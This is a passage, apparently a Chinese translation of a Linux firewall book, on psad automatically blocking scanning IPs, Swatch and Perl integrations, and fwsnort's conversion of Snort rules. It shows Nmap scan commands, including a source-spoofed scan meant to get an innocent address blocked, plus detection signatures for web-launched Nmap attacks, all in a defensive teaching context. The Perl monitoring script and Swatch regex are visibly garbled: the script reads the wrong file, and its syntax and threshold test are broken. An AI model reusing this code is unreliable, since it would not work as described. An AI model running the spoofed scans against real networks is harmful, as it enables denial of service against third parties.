在本节中，我们将深入探讨几个使用`psad`主动响应模式的精彩示例，并展示它如何检测并封禁一个持续扫描已启用`iptables`功能的 Linux 系统的 IP 地址。本节所有主动响应示例请参考图 8-1 中的标准网络图。与往常一样，防火墙上部署的是第 20 页“默认 iptables 策略”中由`iptablesfw`脚本实现的默认`iptables`策略。



图 8-1. 默认网络图

## 主动响应配置设置

鉴于`psad`的高度可配置性，只有在我们约定一套特定的`psad`配置值时，本节的主动响应示例才能具有严谨性。虽然没有列出`/etc/psad/psad.conf`中的每一个配置变量，但相关的主动响应和危险等级变量如下。（其中一些变量的更详细解释可以在第 5 章中找到，完整的`psad.conf`文件可以从 http://www.cipherdyne.org/linuxfirewalls 下载。）

```
DANGER_LEVEL1        5;  ### 数据包数量
DANGER_LEVEL2       15;
DANGER_LEVEL3      150;
DANGER_LEVEL4     1500;
DANGER_LEVEL5    10000;
PORT_RANGE_SCAN_THRESHOLD 1;
ENABLE_PERSISTENCE   Y;  ### 不允许扫描超时
CHECK_INTERVAL       5;  ### 秒
ENABLE_AUTO_IDS      3;
AUTO_IDS_DANGER_LEVEL 3;
AUTO_BLOCK_TIMEOUT 3600; ### 秒
ENABLE_AUTO_IDS_REGEX N;
AUTO_BLOCK_REGEX     ESTABLISHED; ### 来自 fwnsort 日志前缀
ENABLE_RENEW_BLOCK_EMAILS N; # 禁用旧封禁规则的电子邮件通知
```

```
IPTABLES_BLOCK_METHOD	Y; # use iptables
FLUSH_IPT_AT_INIT	Y; # flush old rules at psad initialization
IPT_AUTO_CHAIN1	DROP, src, filter, INPUT, 1, PSAD_BLOCK_INPUT, 1;
IPT_AUTO_CHAIN2	DROP, dst, filter, OUTPUT, 1, PSAD_BLOCK_OUTPUT, 1;
IPT_AUTO_CHAIN3	DROP, both, filter, FORWARD, 1, PSAD_BLOCK_FORWARD, 1;
```

关于此主动响应配置有几点需要注意。首先，`psad`不会永久封锁攻击者，而是受`AUTO_BLOCK_TIMEOUT`变量的控制（它仅会对攻击者添加 3,600 秒——即一小时的封锁规则）。其次，攻击者必须至少达到`danger_LEVEL1`才会实例化封锁规则；这意味着对于以下情况将不采取任何行动：扫描的数据包少于 150 个、触发的签名在`/etc/psad/signatures`中设置的`psad_c1`不为 3，或者在`/etc/psad/auto_dl`中自动分配的危险级别低于 1。最后，由于`ENABLE_AUTO_IDS_REGEX`被设置为`N`，`psad`不需要过滤策略生成任何特殊的日志前缀即可封锁 IP 地址。

### SYN 扫描响应

我们将通过攻击者对`iptables`防火墙发起标准的 Nmap SYN 扫描来展开扫描示例。在这里，我们将让 Nmap 自动选择要扫描的端口集，而不是手动指定端口列表或范围：

```
[ext_scanner]# nmap -sS -Pn -O 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03-05 15:33 EST
Interesting ports on 71.157.X.X:
(The 1671 ports scanned but not shown below are in state: filtered)
PORT SERVICE
80/tcp open http

Nmap finished: 1 IP address (1 host up) scanned in 227.911 seconds
```

`psad`检测到了 SYN 扫描并生成了以下两条 syslog 消息，表明 IP 地址 144.202.X.X 已被封锁 3,600 秒，且在本次特定检查间隔内，监测到端口范围 2 到 32787 之间有 237 个 TCP 数据包：

```
Mar 15 15:33:46 iptablesfw psad: added iptables auto-block against 144.202.X.X for 3600 seconds
Mar 15 15:33:52 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X tcp= [2-32787] SYN tcp=237 udp=0 icmp=0 dangerlevel=3
```

`psad`确实通过在自定义`psad`链中添加封锁规则封锁了攻击者（由前文讨论的`IPT_AUTO_CHAIN{n}`变量定义）。无需在`iptables -v -n -L`的输出中费力寻找，`psad`让您能轻松地在`psad`链中查看新的封锁规则：

```
[iptablesfw]# psad --fw-list
[+] Listing chains from IPT_AUTO_CHAIN keywords...

Chain PSAD_BLOCK_INPUT (1 references)
pkts bytes target prot opt in out source destination
1599 70356 DROP all - * * 144.202.X.X 0.0.0.0/0
```

```
Chain PSAD_BLOCK_OUTPUT (1 references)
pkts bytes target prot opt in out source destination
0 0 DROP all - * * 0.0.0.0/0 144.202.X.X
```

```
Chain PSAD_BLOCK_FORWARD (1 references)
pkts bytes target prot opt in out source destination
0 0 DROP all - * * 0.0.0.0/0 144.202.X.X
0 0 DROP all - * * 144.202.X.X 0.0.0.0/0
```

从状态角度来看，还可以通过使用`psad --Status`命令查看针对某个 IP 地址的封锁规则将持续多少秒。此处未显示该命令的完整输出，但在输出末尾显示了以下两行。这两行表明，在这种情况下，IP 144.202.X.X 剩余 3,445 秒的封锁时间：

```
Iptables auto-blocked IPs:
144.202.X.X (3445 seconds remaining)
```

最后，为了确认从攻击者的角度来看目标现在已无法访问，我们可以再次尝试扫描。这一次，甚至连 80 端口也无法访问：

```
[ext_scanner]# nmap -sS -P0 -n 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03-05 15:47 EST
All 1672 scanned ports on 71.157.X.X are: filtered

Nmap finished: 1 IP address (1 host up) scanned in 35.906 seconds
```

### UDP 扫描响应

等待一小时后，我们通过 syslog 看到`psad`已移除了针对 144.202.X.X 地址的封锁规则：

```
Mar 5 16:33:56 psad: removed iptables auto-block against 144.202.X.X
```

现在我们将尝试对`iptables`目标进行 UDP 扫描。由于`psad`记录了攻击者的源地址 (144.202.X.X) 已经达到了危险级别 3，因此一旦记录到第一个 UDP 数据包，它将立即更新封锁规则。如果攻击者与防火墙“友好相处”，不发起任何会导致`iptables`生成日志消息的网络流量，那么攻击者将在一个小时后重新获得对 Web 和 DNS 服务器的连接能力。在下面的 Nmap 输出中，端口被标记为`open|filtered`。这是因为 Nmap 无法假设远程 UDP 套接字一定会响应任何数据，且由于`iptables`防止生成任何 ICMP 端口不可达消息（UDP 协议栈甚至看不到这些数据包，因为`iptables`已在内核较低层级拦截了它们），因此 Nmap 无法推断端口是否关闭。

```
[ext_scanner]# nmap -sU -P0 -n 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03-05 18:55 EST
All 1482 scanned ports on 71.157.X.X are: open|filtered

Nmap finished: 1 IP address (1 host up) scanned in 32.023 seconds
```


同样，针对`144.202.X.X` IP 地址的`iptables`封锁规则被再次添加，但这一次，`psad`在添加规则之前在此扫描间隔内监测到了 66 个 UDP 数据包。（记住，默认情况下，`psad`每五秒检查一次新的`iptables`日志消息。）

```
Mar 5 18:55:55 iptablesfw psad: added iptables auto-block against 144.202.X.X for 3600 seconds
Mar 5 18:56:00 iptablesfw psad: scan detected: 144.202.X.X -> 71.157.X.X tcp=0 udp=66 icmp=0 dangerlevel: 4
```

### Nmap 版本扫描

在又等待一小时后，攻击者再次回来，对 TCP 80 端口进行`Nmap`版本扫描。攻击者记得在 SYN 扫描中该端口有一个服务器在监听，因此想了解关于该服务器的更多信息。

```
[ext_scanner]# nmap -sV -P0 -p 80 -n 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03-05 20:40 EST
Interesting ports on 71.157.X.X:
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd

Nmap finished: 1 IP address (1 host up) scanned in 6.957 seconds
```

Apache Web 服务器绑定到 TCP 80 端口。仅仅通过 80 端口与目标建立 TCP 连接这一行为本身并不表明有任何可疑活动。从传输层及以下层级来看，该连接看似良性，`iptables`没有任何记录。然而，正如我们在下一个示例中将看到的，盲 FIN 数据包则是另一回事。

### FIN 扫描响应

攻击者现在确信目标运行着一个可访问的 TCP 服务器，但仍可能希望测试主动响应软件在 TCP 方面的严谨程度。例如，该软件可能缺乏跟踪 TCP 连接状态的方法，因此可能会让一个盲 FIN 数据包通过并到达服务器。但`iptables`并非如此；在 FORWARD 链开头记录并丢弃匹配`INVALID`状态数据包的规则（参见第 20 页的“默认`iptables`策略”）不允许盲 FIN 数据包通过到达内部 Web 服务器。

```
[ext_scanner]# nmap -sF -P0 -p 80 -n 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03-05 20:50 EST
Interesting ports on 71.157.X.X:
PORT    STATE    SERVICE
80/tcp open|filtered http

Nmap finished: 1 IP address (1 host up) scanned in 0.812 seconds
```

在这种情况下，`Nmap`从目标 TCP 协议栈接收到零个数据包，它必须将其作为证据，认为端口要么是开放的（如第 3 章所述，开放端口在收到孤立的 FIN 数据包时不会响应任何数据包），要么是被过滤的（因为防火墙或类似机制阻止了协议栈响应）。`iptables`确实过滤了这个盲 FIN 数据包，在此过程中，`psad`对攻击者添加了封锁规则。

### 恶意伪造扫描

此时，攻击者已经充分意识到目标网络使用了主动响应机制进行保护。此外，并没有任何禁令禁止攻击者滥用 IP，以使扫描看起来像是来自（例如）与 Yahoo! 网络关联的 IP 地址。只要本地网络和/或本地 ISP 没有部署反欺骗措施（例如在位置适当的边界路由器和/或防火墙上针对非本地 IP 地址实施出口过滤），攻击者就极其容易在 IP 数据包的源地址字段中产生任意位。

```
[ext_scanner]# nmap -sS -P0 -sP 0.X -S 68.142.X.X -e eth0 -n 71.157.X.X
Starting Nmap 4.01 ( http://www.insecure.org/nmap/ ) at 2007-03-05 21:34 EST
All 1672 scanned ports on 71.157.X.X are: filtered

Nmap finished: 1 IP address (1 host up) scanned in 32.023 seconds
```

在扫描系统上运行的`Nmap`进程从未看到任何来自目标的返回数据包（无论是开放端口的 SYN/ACK 还是关闭端口的 RST/ACK），原因有二：首先，`iptables`拦截了其中大部分；其次，目标生成的任何数据包都被发送到了（伪造的）`68.142.X.X`地址，而不是发回给扫描器。虽然这导致`Nmap`将所有端口列为被过滤，但攻击者无需在意；其目标仅仅是在目标上触发封锁响应。`psad`看到扫描来自`68.142.X.X`，一旦扫描达到`DANGER_LEVEL3`，便相应地将其封锁：

```
Mar 5 21:34:46 iptablesfw psad: added iptables auto-block against 68.142.X.X for 3600 seconds
Mar 5 21:34:52 iptablesfw psad: scan detected: 68.142.X.X -> 71.157.X.X tcp= [2-32787] SYN tcp=237 udp=0 icmp=0 dangerlevel= 3
```

可以通过在`/etc/psad/auto_dl`文件中明确忽略任何危险级别为零的 IP 地址来规避封锁规则，但不可能以这种方式列出所有重要的 IP 地址。TCP 空闲扫描同样（参见第 3 章关于...

（详细解释）要求扫描的源地址必须经过伪造，因此，伪造的源地址不仅可以用作触发目标的活动响应机制，还可以用来完成真实的扫描。

这个例子为“不建议配置`psad`响应端口扫描”提供了强有力的理由，而应将其配置为仅响应必须通过已建立的 TCP 连接传输的恶意流量。

## 将 psad 活动响应与第三方工具集成

许多软件供应商内置了 API，以便第三方软件能够管理或以其他方式与其应用程序交互。这可以增加应用程序的用户群和安装基数，因为它提供了一种否则无法获得的灵活性、可插拔性和可脚本化能力。商业安全产品领域的一个例子是 Check Point 的 OPSEC API，它允许第三方应用程序从远程系统管理 Check Point 防火墙（参见`http://www.opsec.com`）。鉴于商业产品有时会开放 API 以允许其他应用程序轻松集成，开源项目在更大程度上遵循这一惯例，`psad`也不例外。

### 命令行界面

`psad`提供的功能不仅仅是通过动态添加（和删除）`iptables`规则来拦截违规 IP 地址。活动响应功能还可以通过命令行界面轻松地与第三方工具集成（这使得响应功能易于脚本化），或者更直接地，通过 Unix 域套接字与运行中的`psad`守护进程通信。使用`psad`管理`iptables`规则集而非将此功能直接构建到第三方应用程序中的一些优势如下：

- 基于定时器的规则过期能力已内置在`psad`中，因此无需独立开发。
- `psad`在其自定义链中管理动态生成规则的插入和删除。这保证了`psad`规则与任何现有`iptables`策略的分离。
- 如果`psad`链中已存在拦截规则，`psad`不会对同一个 IP 地址或网络添加重复规则。
- `psad`会查询`/etc/psad/auto_dl`文件，以确保不会拦截白名单中的 IP 地址或网络。
- 可以使用`psad --status`命令轻松查看当前被拦截 IP 地址的状态信息。
- 可以使用`psad --fw-list`命令查看`psad`自定义链的列表。这使得在复杂的过滤策略中，很容易将`psad`创建的`iptables`规则与其他规则区分开来。

## 注意

所有通过`psad`命令行调用可用的活动响应功能，都要求系统上有一个`psad`实例作为守护进程运行。如果没有，则会产生一个错误，告知您`psad`当前未运行。

### 添加拦截规则

您可以使用`--fw-block-ip`命令行参数手动向`psad`自定义链中添加特定 IP 地址或网络的拦截规则。例如：

```
[iptablesfw]# psad --fw-block-ip 144.202.X.X
[+] Writing 144.202.X.X to socket. psad will add the IP address within 5 seconds.
```

一旦运行中的`psad`守护进程中的`CHECK_INTERVAL`定时器到期，该 IP 地址将被添加到拦截链中，持续时间由变量`AUTO_BLOCK_TIMEOUT`设置：

```
Mar 6 01:30:40 iptablesfw psad: added iptables auto-block against 144.202.X.X for 3600 seconds
```

### 删除拦截规则

要删除特定 IP 地址或网络的所有拦截规则，可以使用`--fw-rm-block-ip`命令行参数：

```
[iptablesfw]# psad --fw-rm-block-ip 144.202.X.X
[+] Writing 144.202.X.X to socket. psad will remove the IP address within 5 seconds.
```

随后，运行中的`psad`守护进程会使拦截规则过期：

```
Mar 6 01:34:51 iptablesfw psad: removed iptables auto-block against 144.202.X.X
```

### 清除所有拦截规则

有时实现基本的网络连通性可能会出现问题，在某些情况下，这些连通性问题可能会被活动响应机制加剧。除了提供将某些 IP 地址和网络列入白名单的能力外，活动响应机制还应使其能够轻松地移除对网络的影响。对于`psad`及其动态生成的`iptables`规则，这意味着应该有一种方法可以轻松删除`psad`自定义链中的所有规则。`psad --Flush`命令正是执行此操作：

```
[iptablesfw]# psad --Flush
[+] Flushing psad chains via running psad daemon within 5 seconds.
```

一旦`CHECK_INTERVAL`定时器到期，运行中的`psad`守护进程将生成以下 syslog 消息：

```
Mar 6 01:35:37 iptablesfw psad: flushing existing psad Netfilter auto-response chains
Mar 6 01:35:37 iptablesfw psad: flushed: PSAD_BLOCK_INPUT
Mar 6 01:35:37 iptablesfw psad: flushed: PSAD_BLOCK_OUTPUT
Mar 6 01:35:37 iptablesfw psad: flushed: PSAD_BLOCK_FORWARD
```

## 与 Swatch 集成

由 Todd Atkins 编写的 Swatch 工具（`http://swatch.sourceforge.net`）允许将 Perl 正则表达式应用于任意日志文件。Swatch 可用于监控所有通过 syslog 报告的各类日志消息。Swatch 最常见的应用之一可能是查找由 SSH 守护进程通过 syslog 报告的身份验证失败，如下所示：

```
Mar 7 01:20:20 iptablesfw sshd[31403]: error: PAM: Authentication failure for root from 192.168.10.3
```

现在，我们配置 Swatch 使用适当的命令行参数执行`psad`，以拦截任何导致上述身份验证失败的 IP 地址。这意味着我们需要一个使用`反向引用`的正则表达式，从此类 syslog 消息中提取 IP 地址，并在`psad`命令中使用该反向引用的内容。此处 Swatch 配置文件中的两行粗体内容实现了这一功能：

```
# Swatch -> psad active response for SSH bad logins

watchfor / .ssh d:"Authentication\s*failure.*((?:[0-2]?\d{1,2}\.){3}[0-2]?\d{1,2})/ 
    echo-mode=ref
    exec "/usr/sbin/psad --fw-block-ip $" 
```

配置好 Swatch 与`psad`的集成后，我们从命令行启动它。以下代码列表显示了它对第一条身份验证失败消息的反应：

```
[iptablesfw]# . /swatch --config-file swatchrc.sshauth --tail-file /var/log/auth.log

*** swatch version 3.1.1 (pid:3543) started at Tue Mar 6 01:34:00 EST 2007

Mar 7 01:55:20 iptablesfw sshd[31403]: error: PAM: Authentication failure for root from 192.168.10.3
Can't ignore signal CHLD, forcing to default.
[+] Writing 192.168.10.3 to socket. psad will add the IP address within 5 seconds.
```

运行中的`psad`守护进程会尽职地写入以下 syslog 消息：

```
Mar 7 01:55:25 sshdhost psad: added iptables auto-block against 192.168.10.3 for 3600 seconds
```

这个例子说明了如何使用`psad`的响应功能，基于 OpenSSH 的身份验证失败来拦截 IP 地址。对于一个无法获知未加密会话的 IDS 来说，这些失败很可能是无法检测到的，因此本例强调了将网络响应与日志文件中记录的可疑活动绑定所带来的强大能力。

## 与自定义脚本集成

一个程序可以通过`/var/run/psad/auto_ipt.sock` Unix 域套接字直接与运行中的`psad`守护进程接口，而不是使用`psad`命令行向 IP 地址发布`iptables`规则添加或删除指令。以下 Perl 脚本（`sshauth.pl`）监控`/var/log/auth.log`文件，检查来自同一个 IP 地址的连续 20 次身份验证失败。如果达到或超过此阈值，脚本将通过套接字向运行中的`psad`守护进程发送 add IP 命令，以便随后将其添加到`psad`自定义拦截链中。（该脚本可从`http://www.cipherdyne.org/linuxfirewalls`下载。）


# 分析 `sshauth.pl` 脚本

以下 Perl 脚本 `sshauth.pl` 用于监控 SSH 认证失败并自动封禁恶意 IP 地址。

```perl
#!/usr/bin/perl -w

### perl modules
use IO::Socket;
use IO::Handle;
use strict;

#================= config ==================
my $auth_failed_threshold = 20;
my $auth_failed_regex = 'sshd_Authentication\s+failure=?(?:[0-2]\)?\d{1,2})\.\d{1,2})\d{1,2})';
my $sockfile = '/var/run/psad/auto_ipt.sock';
my $sleepval = 5; ### seconds
my $sleep_interval = 5; ### seconds
#================= end config =============

### cache previously seen IP addresses and associated failed login
my %counts = ();
my %ip_cache = ();

### open the psad domain socket for writing
my $psad_sock = IO::Socket::UNIX->new($sockfile)
  or die "[!] Could not acquire psad domain socket ",
     " socket $sockfile: $!";

### open the logfile
open F, "<" $sockfile or die "[!] Could not open file $sockfile: $!";
my $skip_first_loop = 0;
for (;;) {
    unless ($skip_first_loop) {
        seek F,0,2; ### seek to the end of the file
        $skip_first_loop = 1;
    }

    my @messages = <F>;
    for my $msg (@messages) {
        if ($msg =~ m|$auth_failed_regex|) {
            $ip_cache($1)++;
        }
    }

    for my $src (keys %ip_cache) {
        ### block the IP address if the threshold is exceeded
        if ($ip_cache{$src} >= $auth_failed_threshold == 0) {
            print $psad_sock "add $src\n";
        }
    }

    F->clearerr(); ### be ready for new data
    sleep $sleep_interval;
}
```

```perl
close F;
close $psad_sock;
exit 0;
```

上述代码中，第一部分打开了用于接收指令的 psad 监控域套接字，这些指令用于指示添加或删除封禁规则。第二部分通过 `/var/run/psad/auto_ipt.sock` 域套接字与运行中的 psad 守护进程进行交互。一旦某个 IP 地址超过了 `$auth_failed_threshold` 变量定义的阈值（在本例中设置为 20），此代码将写入字符串 `add IP`。通过运行此脚本，任何对 OpenSSH 守护进程造成 20 次身份验证失败的 IP 地址都将被 psad 封禁，具体取决于 `/etc/psad/psad.conf` 中为活动响应配置变量所设定的值。

> [47]¹³ 尽管 SSH 是一种加密协议，但某些针对 SSH 的攻击（如 CRC32 攻击 CVE 2001-0144）在明文中仍可被检测。然而，通常情况下，明文 IDS 无法对加密会话的特征做出详细推断。

## 总结思考

本章介绍了使用 psad 积极响应恶意流量的技术。在多个环节中，我们通过建议尽量减少允许软件响应攻击可能带来的破坏性影响来缓和观点，因为这可能会产生误报，甚至可能导致攻击者尝试将活动响应机制反过来利用于攻击目标。为了对抗这些破坏性影响，psad 提供了仅对通过已建立的 TCP 连接交付的攻击做出响应的能力；关于此主题的更多内容将在第 11 章中介绍。

# 第 9 章 将 SNORT 规则转换为 IPTABLES 规则

在本章中，我们将介绍 `fwsnort` 或 Firewall Snort$^{48}$（参见 http://www.cipherdyne.org/fwsnort）。该软件是用 Perl 编写的，可将 Snort 规则转换为等效的 iptables 规则。`fwsnort` 项目利用 iptables 的过滤和检查能力——包括大量使用 iptables 字符串匹配扩展——以便在 iptables 规则集中尽可能地匹配 Snort 规则。

虽然由于 Snort 规则语言的复杂性，并不总是能将许多 Snort 规则干净地转换，但 `fwsnort` 仍然能够转换 Snort 2.3.3 版本$^{49}$ 中约 60% 的所有规则。

尽管 `fwsnort` 无法将完整的 Snort 签名集转换为 iptables 规则，但 `fwsnort` 始终以内联（inline）方式部署在网络流量中。Snort 通常部署在被动状态，用于监控网络中的可疑活动——它通常不部署在内联模式下，尽管它确实提供此功能。由 `fwsnort` 构建的任何策略都不局限于被动的数据包检查——`fwsnort` 策略可以配置为通过 iptables 的 `DROP` 目标丢弃恶意数据包。

第 10 章和第 11 章将演示如何使用 `fwsnort` 的完全响应模式来应对几个示例攻击，但首先我们需要了解 `fwsnort` 将 Snort 规则转换为等效 iptables 规则的过程背景。我们将从解释为什么你可能想在 Linux 系统上部署 `fwsnort` 开始，并检查一些 `fwsnort` 已转换为 iptables 规则的 Snort 规则示例。

Snort 规则语言的灵活性和完整性允许 Snort 在网络传输过程中搜索基于网络攻击的高度描述性表示及其对这些攻击的响应。这一特性牢固地确立了 Snort 作为网络入侵检测和防御最佳工具之一的地位。

然而，一个优秀的入侵防御系统 (IPS) 永远不能完全替代一个有效的状态防火墙。防火墙和入侵防御系统通常从相反的观点进行安全强制执行；防火墙根据安全策略定义一组*允许*的流量，并封禁（通常会记录）不符合该策略的流量。相比之下，入侵防御系统定义一组*不允许*的网络流量，并仅封禁（或以其他方式响应）这些活动。

与此同时，随着两者的融合，防火墙和 IPS 实现之间的界限正在变得模糊。防火墙被设计为具有更多的应用层处理能力（这是入侵检测系统的长期优势），而入侵防御系统则被设计为提供不依赖于应用层处理的基础过滤能力。在商业软件领域，这两个方面的例子分别是 Check Point NG 防火墙中的 Application Intelligence 功能和 Enterasys Dragon IDS/IPS 的 IPS 模式中的 Dynamic Firewall 功能。

## 为什么要运行 `fwsnort`？

`fwsnort` 项目专注于增强 Linux 内核控制允许与您的 Linux 系统通信（或通过该系统）的数据包类型的能力。通过将 Snort 签名语言的强大功能与 Linux 内核的速度以及 iptables 命令的简洁性相结合，`fwsnort` 能够增强现有 IDS/IPS 基础设施的安全态势。将 `fwsnort` 与另一个 IDS/IPS 协同部署非常简单，因为 `fwsnort` 只是构建一个用于执行 iptables 命令的 shell 脚本（通常在终端主机上）。此外，由于 iptables 始终内联于网络流量，其稳定性和速度经过了严格测试。

## 纵深防御

入侵检测系统本身也可能成为攻击目标，攻击范围从试图通过强制产生误报来破坏 IDS 警报机制，到试图利用 IDS 内部的漏洞直接获取代码执行权限。例如，可以通过 Tor 网络发送真实或伪造的攻击，使攻击看起来源自与攻击者网络无关的 IP 地址。此外，入侵检测系统偶尔会出现远程可利用的漏洞（例如 Snort DCE/RPC 预处理器漏洞；参见 http://www.snort.org/docs/advisory-2007-02-19.html）。

纵深防御原则不仅适用于传统的计算机系统（服务器和桌面），也适用于安全基础设施系统，如防火墙和入侵检测系统。因此，有空间通过额外的机制来补充现有的入侵检测/防御系统。

### 基于目标的入侵检测与网络层分片重组

在 IDS 中构建允许其利用终端主机特征来增强检测操作的功能被称为基于目标的入侵检测。例如，Snort IDS 通过 `frag3` 预处理器提供网络层分片重组，它可以对分片网络流量应用各种数据包分片重组算法（包括 Linux、BSD、Windows 和 Solaris IP 栈中的算法）。这很有用，因为它允许 Snort 应用与目标主机相同的分片重组算法：如果一个分片攻击被发送到 Windows 系统，但 Snort 使用 Linux IP 栈的算法对攻击进行重组，那么该攻击可能会被遗漏或错误报告。

`frag3` 预处理器不会自动将分片重组算法映射到主机；相反，您必须手动告诉 Snort 为每个受监控的主机或网络运行哪个算法，而这正是配置错误可能产生的地方。例如，假设一家公司的 IT 部门在一个通常预留给 Windows 主机的 IP 范围内部署了一台新的 Linux 服务器。对于此范围内的所有 IP 地址，Snort `frag3` 预处理器都被配置为使用 Windows 算法重组所有流量。在这种情况下，除非 IT 部门通知安全小组有一台新的 Linux 服务器，否则 `frag3` 配置与实际部署的操作系统之间将存在脱节。针对该 Linux 系统的分片攻击将被 Snort 使用 Windows IP 栈的算法进行重组。

在 `fwsnort` 的情况下（特别是当它被本地部署在攻击者目标同一系统上时），我们不需要担心分片问题，因为应用的分片重组算法就是实际受害 IP 栈的算法。在 `fwsnort` 中，网络分片重组是通过使用 Netfilter 连接跟踪子系统（它必须重组流量才能将数据包分类到正确的连接中）以及 `fwsnort` 策略来完成的。`fwsnort` 执行的应用层检查发生在 Linux IP 栈已经完成流量分片重组之后。

**注意**

在使用 `fwsnort` 和 iptables 时，分片攻击不再是主要担忧，但基于目标的入侵检测的益处并不局限于网络分片问题，这也是 IDS 社区一个活跃的研究和开发领域。例如，IDS 可以使用操作系统和应用程序信息来剔除潜在的误报或提高报告攻击的严重程度。例如，如果一个利用 Microsoft IIS Web 服务器缓冲区溢出漏洞的攻击被指向一个 Apache Web 服务器，那么它没有可能危及目标。在这种情况下，如果攻击被 IDS 检测到，该事件的严重程度应远低于指向真实 IIS 服务器的攻击。

### 轻量级足迹

高负载系统可能缺乏可用资源来部署额外的用户空间进程进行入侵检测（如 Snort）。在 `fwsnort` 的情况下，数据包检查直接在 Linux 内核中进行，因此这通常对系统资源的占用非常轻量——不需要将数据从内核内存复制到用户空间进程中（正如普通 IPS [50] 所做的那样）。在由于资源限制而无法部署专用 IDS/IPS 的系统上，`fwsnort` 可能提供一个可行的替代方案。

### 内联响应

由于 `fwsnort` 构建的 iptables 签名策略始终内联于网络流量，它是采取措施对抗某些特别恶意攻击的理想选择。例如，假设在你的基础架构中部署的 Linux 服务器软件（如 BIND）中发现了一个新漏洞。如果 Snort 社区开发了一个用于检测针对该漏洞攻击的签名，则可以将 `fwsnort` 配置为丢弃（通过 iptables `DROP` 目标）看似匹配该攻击的数据包，并且 `fwsnort` 可以通过 `REJECT` 目标发出标准协议响应（关于此主题的更多内容请参阅第 11 章）。

如果服务器的运行时间与服务水平协议 (SLA) 绑定，那么在将其停机并打补丁之前可能需要一段等待期，且这还假设存在一个修复该漏洞的补丁（事实并非总是如此）。如果在安排停机窗口以应用补丁之前，服务器软件必须保持全球可用，那么内联预防机制可以为防止利用该漏洞提供有价值的保护。（此外，由于 `fwsnort` 策略非常轻量，它们通常可以与其它预防机制一起部署，例如运行在内联模式下的 Snort。）

## 注意

因为 `fwsnort` 只是构建一个用于执行 iptables 命令的 shell 脚本，因此它可以很容易地部署在许多系统中，配合类似 Zenoss ([http://www.zenoss.org](http://www.zenoss.org)) 这样的工具，后者可以通过 SSH 一次性在许多远程系统上执行命令。这使得在基础架构中的所有 Linux 系统中利用 `fwsnort` 变得非常简单。

- [48] 1 `fwsnort` 的最初版本最初基于 William Stearns 编写的 shell 脚本 `snort2iptables`（参见 [http://www.stearns.org/snort2iptables](http://www.stearns.org/snort2iptables)）。

- [49] 2 Snort-2.3.3 规则集和 Bleeding Snort 规则集（参见 [http://www.bleedingsnort.com](http://www.bleedingsnort.com)）均随 `fwsnort` 源码免费分发，且不受 Sourcefire 分发的 VRT 签名许可条款的限制。

- [50] 3 我在这里强调 IPS 是因为，在 IDS 的情况下，Snort 可以使用共享内存页方法从内核抓取数据包数据（这需要内核支持 `CONFIG_PACKET_MMAP`），与 Snort 在 IPS 模式下通过 netlink 套接字获取数据包数据相比，这对性能的影响较小。

## 签名翻译示例

在深入探讨使用 `fwsnort` 将 Snort 规则翻译成 iptables 规则的理论方面之前，我们将查看几个已经翻译好的 Snort 规则。

### Nmap 命令尝试签名

Snort 文件 `web-attacks.rules` 中的 `Nmap command attempt` 签名用于检测通过 Web 服务器执行 Nmap 扫描器的尝试。

此签名对于检测攻击者试图使用 Web 服务器扫描其他系统的行为非常有用，因为这些系统可能更容易被 Web 服务器访问——本地防火墙规则对 Web 服务器通信的宽容度可能高于对攻击者 IP 地址的宽容度（特别是当 Web 服务器直接连接到内部网络时）。攻击者通常会滥用未对用户输入进行正确过滤的 CGI 应用程序来实施此类扫描尝试。

每当字符串 `"nmap%20"` 在已建立的 TCP 连接中传输时，就会触发该签名（如下文**粗体**所示）：

```perl
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-ATTACKS nmap command attempt"; flow:to_server,established; content:"nmap%20"; nocase; classtype: web-application-attack; sid:13161; rev:5);
```

Nmap 执行签名非常简洁；它以通用方式检测可疑活动。Snort 不需要解释某个 CGI 应用程序是否容易受到 Nmap 尝试的影响——*尝试本身*就是可疑的。

使用 `fwsnort` 将此签名重铸为 iptables 策略会产生如下所示的规则。我们将在第 10 章深入讨论 `iptables` 命令的具体细节，但现在请注意，这是一个 `iptables` LOG 规则，它使用 iptables 字符串匹配来模拟 Snort 规则在网络流量中寻找的内容。iptables 注释匹配还用于在内核中用原始的 Snort msg 字段为规则打标签：

```bash
$ IPTABLES -A FWSNORT_FORWARD_ESTAB -p tcp --dport 80 -m string --string "nmap%20" --algo bm -m comment --comment "sid:13161; msg: WEB-ATTACKS nmap command attempt; classtype:web-application-attack; rev: 5; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[20] SID13161 ESTAB"
```

另一种编写签名以检测通过 Web 服务器执行不当 Nmap 调用方法是查找从 Web 服务器*返回*给客户端的 Nmap 输出。这在检测成功的 Nmap 执行方面比检测仅仅是滥用 CGI 应用程序的尝试更有效，因为（非恶意的）服务器没有自由去混淆其返回的数据以试图逃避入侵检测系统——而攻击者拥有这种自由并经常使用它。[51] 这样的签名会寻找典型 Nmap 输出中不变的部分，例如字符串 `"Interesting ports on"`，如下所示：

```perl
alert tcp $HTTP_SERVERS $HTTP_PORTS -> $EXTERNAL_NET any (msg:"WEB-ATTACKS nmap command success"; flow:from_server,established; content:"Interesting ports on"; classtype:web-application-attack; sid:2007008; rev:1;)
```

### Bleeding Snort "Bancos Trojan" 签名


